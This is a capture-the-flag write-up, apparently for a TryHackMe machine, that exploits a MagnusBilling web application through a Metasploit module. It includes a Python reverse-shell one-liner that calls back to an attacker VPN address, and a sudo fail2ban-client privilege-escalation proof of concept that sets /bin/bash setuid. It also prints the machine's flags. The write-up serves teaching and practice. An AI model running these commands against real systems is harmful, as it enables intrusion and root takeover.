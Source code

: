 ﻿# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |



# RECONNAISSANCE
---


![Pasted image 20250612121156.png](../../IMAGES/Pasted%20image%2020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![Pasted image 20250612121421.png](../../IMAGES/Pasted%20image%2020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![Pasted image 20250612121504.png](../../IMAGES/Pasted%20image%2020250612121504.png)


![Pasted image 20250612121513.png](../../IMAGES/Pasted%20image%2020250612121513.png)


Based on that, let's search a module on `metasploit`:

![Pasted image 20250612121650.png](../../IMAGES/Pasted%20image%2020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![Pasted image 20250612121837.png](../../IMAGES/Pasted%20image%2020250612121837.png)

Now, set options and run the exploit:


![Pasted image 20250612121935.png](../../IMAGES/Pasted%20image%2020250612121935.png)


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![Pasted image 20250612122241.png](../../IMAGES/Pasted%20image%2020250612122241.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250612122406.png](../../IMAGES/Pasted%20image%2020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![Pasted image 20250612122904.png](../../IMAGES/Pasted%20image%2020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![Pasted image 20250612123256.png](../../IMAGES/Pasted%20image%2020250612123256.png)

![Pasted image 20250612123306.png](../../IMAGES/Pasted%20image%2020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![Pasted image 20250612123407.png](../../IMAGES/Pasted%20image%2020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![Pasted image 20250612123516.png](../../IMAGES/Pasted%20image%2020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![Pasted image 20250612123848.png](../../IMAGES/Pasted%20image%2020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![Pasted image 20250612124033.png](../../IMAGES/Pasted%20image%2020250612124033.png)

